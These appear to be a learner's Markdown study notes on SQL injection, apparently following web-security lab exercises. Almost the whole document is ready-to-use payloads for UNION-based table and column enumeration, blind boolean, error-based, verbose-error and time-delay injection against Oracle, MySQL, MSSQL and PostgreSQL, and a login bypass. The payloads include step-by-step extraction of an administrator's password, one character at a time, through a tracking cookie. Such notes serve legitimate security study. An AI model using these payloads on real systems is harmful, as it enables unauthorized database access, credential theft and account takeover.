 # Retrieving hidden data

## simple attack 
`https://insecure-website.com/products?category=Gifts` -> `SELECT * FROM products WHERE category = 'Gifts' AND released = 1` 
=> after injecting `'+OR+1=1--` -> `SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`

## Examining the database

> **determine number of columns/which column contains text**: `'+UNION+SELECT+'abc','def'+FROM+dual--`
> **database version**: `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`

- On <mark style="background: #BBFABBA6;">MySQL and Microsoft</mark>
>  `'+UNION+SELECT+'abc','def'#`
>  `'+UNION+SELECT+@@version,+NULL#`
## Listing the contents 

- <mark style="background: #FF5582A6;">Oracle</mark>
>**number of columns**: `'+UNION+SELECT+'abc','def'+FROM+dual--`
>**list of tables in the database**: `'+UNION+SELECT+table_name,NULL+FROM+all_tables--`
>**details of the columns in the table**:`'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--`
>**usernames and passwords for all users**: `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--`

- <mark style="background: #FF5582A6;">non-Oracle</mark>
>`'+UNION+SELECT+'abc','def'--`
>`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
>`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
>`'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`

# Blind SQL injection
## triggering conditional responses

- let's say the original value of the cookie is `TrackingId=xyz`.
>1) **Modify the cookie**: `TrackingId=xyz' AND '1'='1` -> "Welcome back" message appears in the response
>2) **change it to**: `TrackingId=xyz' AND '1'='2` ->  "Welcome back" message does not appear in the response
>3) `TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a` ->  there is a table called `users`
>4) `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a` -> there is a user called `administrator`
>5) `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a` -> password is greater than 1 character in length.
>6) burp intruder/Repeater =>  password is 20 characters long.
>7) `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§` -> first character
>8) `TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§` ->2nd character
>And so on...

## Error-based

### triggering conditional errors

- simple example:
> `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a` -> evaluates to `'a'` => no error 
> `xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a` -> evaluates to `1/0` => divide-by-zero error
> => **you can retrieve data by testing one character at a time**: `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

- another example:
  - let's say the original value of the cookie is `TrackingId=xyz`.
>1) **Modify the cookie**: `TrackingId=xyz'` -> error message is received
>2) **change it to two quotation marks**: `TrackingId=xyz''` -> the error disappears
>3) **confirm that the server is interpreting the injection as a SQL query**:
> - `TrackingId=xyz'||(SELECT '')||'` -> `TrackingId=xyz'||(SELECT '' FROM dual)||'` -> no error => oracle database(as we used dual) 
> - `TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'` -> error again
> 4) **verify that the `users` table exists** -> `TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`
> 5) **exploit this behavior to test conditions**: 
> - `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'` -> error received
> - `TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'` -> error disappears
>6) **check whether the username `administrator` exists**: `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
>7) **determine the length of administrator's password**:  `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>§1§ THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'` (use intruder)
>8) **test the character at each position to determine its value**: 
>- `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
>- `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'` 
>- and so on...
### verbose SQL error messages

  - let's say the original value of the cookie is `TrackingId=xyz`.
  >1) **Modify the cookie**: `TrackingId=xyz'` -> error message is received
  >2) **comment out the rest of the query**: `TrackingId=ogAZZfxtOKUELbuJ'--` -> comments the extra single quote -> no longer error 
  >3) **raise an error using `cast` keyword**: `TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--` -> error: `AND condition must be a boolean expression`
  >4) **modify the condition accordingly (to recieve no error)**: `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--` -> no longer error
  >5) **use `SELECT` to retrive usernames from database**: `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--` -> error: character limit 
  >6) **Delete the original value of the cookie(to free up some additional characters)**: `TrackingId='...` -> error: unexpectedly returned more than one row  
  >7) **Modify the query to return only one row**: `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--` -> error leaks the first username: `ERROR: invalid input syntax for type integer: "administrator"`
  >8) **leak password**: `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--` 
## triggering time delays

- simple example:
  >`'; IF (1=2) WAITFOR DELAY '0:0:10'--` -> condition false => no delay
  >`'; IF (1=1) WAITFOR DELAY '0:0:10'--` -> condition true => 10 sec delay
  >=> **retrive data using one character at a time**: `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

let's say we have a *cookie* called `TrackingId` and the *database is PostgreSQL* .

- *example of time delays:*
  > `TrackingId=x'||pg_sleep(10)--` -> 10 sec delay

- *time delays and information retrieval*:
> 1) **10 sec conditional delay**: 
> - `TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--` -> true => delay
> - `TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--` -> false => no delay
> 2) **confirm `administrator` user**: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
> 3) **determine the length of the password**(use intruder/repeater): `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>§1§)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
> 4) **extract the password**(use intruder/repeater): 
> - **first character**: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
> - **2nd**: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
> - and so on ...
# Subverting application logic

## simple attack 
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'` 
=> submit username as `administrator'--` -> `SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`
